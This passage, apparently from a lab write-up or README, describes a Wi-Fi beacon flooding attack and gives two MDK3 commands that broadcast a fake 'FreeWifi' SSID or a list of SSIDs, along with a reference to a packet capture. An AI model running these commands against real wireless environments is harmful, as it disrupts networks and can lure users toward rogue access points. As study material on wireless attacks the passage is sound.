 This attack can easily be launched with MDK3 tool which comes preinstalled with Kali Linux. We simply run:
```
$ sudo mdk3 wlan0 b -n FreeWifi
$ sudo mdk3 wlan0 b -f ssid_list.txt
```
The first command will broadcast an SSID named ’FreeWifi’, while the second command
reads a list of SSIDs from the file 'ssid list.txt' and broadcasts them.

The file 'beacon.pcapng' is the packet capture file of when one such attack was executed. Below image is an example to show the result of the attack when executed.

![image](https://user-images.githubusercontent.com/44478153/130040627-3ee752ba-e67e-4a96-b225-3d802f01c432.png)
